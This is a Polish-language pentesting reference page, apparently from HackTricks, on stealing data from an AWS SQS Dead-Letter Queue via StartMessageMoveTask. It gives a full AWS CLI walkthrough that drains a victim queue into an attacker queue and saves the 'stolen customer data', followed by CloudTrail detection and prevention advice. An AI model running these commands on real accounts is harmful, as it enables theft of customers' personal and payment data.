# AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../banners/hacktricks-training.md}}

## Opis

Wykorzystaj zadania przenoszenia wiadomości SQS, aby ukraść wszystkie zgromadzone wiadomości z Dead-Letter Queue (DLQ) ofiary, przekierowując je do kolejki kontrolowanej przez atakującego za pomocą `sqs:StartMessageMoveTask`. Ta technika wykorzystuje legalną funkcję odzyskiwania wiadomości AWS do eksfiltracji wrażliwych danych, które z czasem zgromadziły się w DLQ.

## Co to jest Dead-Letter Queue (DLQ)?

Dead-Letter Queue to specjalna kolejka SQS, do której wiadomości są automatycznie wysyłane, gdy nie uda się ich poprawnie przetworzyć przez główną aplikację. Te nieudane wiadomości często zawierają:
- Wrażliwe dane aplikacji, które nie mogły zostać przetworzone
- Szczegóły błędów i informacje pomocne w debugowaniu
- Dane osobowe (PII)
- Tokeny API, poświadczenia lub inne sekrety
- Krytyczne dla biznesu dane transakcyjne

DLQ działają jak "cmentarz" dla nieudanych wiadomości, przez co są cennym celem — gromadzą wrażliwe dane przez długi czas, których aplikacje nie były w stanie obsłużyć.

## Scenariusz ataku

**Przykład z prawdziwego świata:**
1. **Aplikacja e-commerce** przetwarza zamówienia klientów przez SQS
2. **Niektóre zamówienia się nie powiodły** (problemy z płatnością, brak towaru itp.) i trafiają do DLQ
3. **DLQ gromadzi** tygodnie/miesiące nieudanych zamówień zawierających dane klientów: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **Atakujący zdobywa dostęp** do poświadczeń AWS z uprawnieniami do SQS
5. **Atakujący odkrywa**, że DLQ zawiera tysiące nieudanych zamówień z wrażliwymi danymi
6. **Zamiast próbować uzyskać dostęp do pojedynczych wiadomości** (wolne i oczywiste), atakujący używa `StartMessageMoveTask`, aby masowo przenieść WSZYSTKIE wiadomości do swojej kolejki
7. **Atakujący wydobywa** wszystkie historyczne wrażliwe dane w jednej operacji

## Wymagania
- Kolejka źródłowa musi być skonfigurowana jako DLQ (referencja w przynajmniej jednej polityce RedrivePolicy innej kolejki).
- Uprawnienia IAM (działające jako skompromitowany podmiot ofiary):
- Na DLQ (źródło): `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- Na kolejce docelowej: uprawnienie do dostarczania wiadomości (np. polityka kolejki pozwalająca na `sqs:SendMessage` z konta podmiotu ofiary). Dla kolejek w tym samym koncie zwykle jest to dozwolone domyślnie.
- Jeśli SSE-KMS jest włączone: na źródłowym CMK `kms:Decrypt`, oraz na docelowym CMK `kms:GenerateDataKey`, `kms:Encrypt`.

## Wpływ
Eksfiltracja wrażliwych ładunków zgromadzonych w DLQ (nieudane zdarzenia, PII, tokeny, ładunki aplikacji) z dużą szybkością przy użyciu natywnych API SQS. Działa międzykontowo, jeśli polityka kolejki docelowej pozwala na `SendMessage` od podmiotu ofiary.

## Jak wykorzystać

- Zidentyfikuj ARN DLQ ofiary i upewnij się, że jest faktycznie używana jako DLQ przez jakąś kolejkę (dowolna kolejka).
- Utwórz lub wybierz kontrolowaną przez atakującego kolejkę docelową i zdobądź jej ARN.
- Uruchom zadanie przenoszenia wiadomości z DLQ ofiary do swojej kolejki docelowej.
- Monitoruj postęp lub anuluj zadanie w razie potrzeby.

### CLI Example: Exfiltrating Customer Data from E-commerce DLQ

**Scenariusz**: Atakujący przejął poświadczenia AWS i odkrył, że aplikacja e-commerce używa SQS z DLQ zawierającym nieudane próby przetwarzania zamówień klientów.

1) **Odkryj i przeanalizuj DLQ ofiary**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **Utwórz kontrolowaną przez atakującego kolejkę docelową**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **Przeprowadź masowe wykradanie wiadomości**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **Zbierz skradzione wrażliwe dane**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### Uwagi dotyczące dostępu między kontami
- Kolejka docelowa musi mieć politykę zasobu pozwalającą principalowi ofiary na `sqs:SendMessage` (a, jeśli używane, przyznania/uprawnienia KMS).

## Dlaczego ten atak jest skuteczny

1. **Wbudowana funkcja AWS**: Wykorzystuje wbudowaną funkcjonalność AWS, co utrudnia wykrycie jako działanie złośliwe
2. **Operacja masowa**: Przenosi tysiące wiadomości szybko zamiast powolnego dostępu pojedynczego
3. **Dane historyczne**: DLQs gromadzą wrażliwe dane przez tygodnie/miesiące
4. **Poza radarem**: Wiele organizacji nie monitoruje dostępu do DLQ uważnie
5. **Możliwość międzykontowa**: Może exfiltrate do własnego konta AWS atakującego, jeśli uprawnienia na to pozwalają

## Wykrywanie i zapobieganie

### Wykrywanie
Monitoruj CloudTrail pod kątem podejrzanych wywołań API `StartMessageMoveTask`:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### Zapobieganie
1. **Zasada najmniejszych uprawnień**: Ogranicz uprawnienia `sqs:StartMessageMoveTask` wyłącznie do niezbędnych ról
2. **Monitoruj DLQs**: Skonfiguruj alarmy CloudWatch dla nietypowej aktywności DLQ
3. **Polityki cross-account**: Dokładnie przejrzyj polityki kolejek SQS zezwalające na dostęp między kontami
4. **Szyfruj DLQs**: Używaj SSE-KMS z ograniczonymi politykami klucza
5. **Regularne czyszczenie**: Nie pozwól, by wrażliwe dane gromadziły się w DLQs bezterminowo

{{#include ../../../banners/hacktricks-training.md}}
